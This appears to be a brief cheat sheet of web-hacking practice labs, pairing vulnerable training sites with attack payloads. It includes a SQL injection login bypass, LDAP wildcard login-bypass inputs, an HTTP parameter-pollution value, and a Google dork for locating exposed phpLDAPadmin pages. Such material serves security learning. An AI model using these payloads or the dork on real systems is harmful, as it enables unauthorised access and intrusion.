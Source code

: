 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# LDAP Injection

Google Dork
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass
user=*
password=*
--> (&(user=*)(password=*))
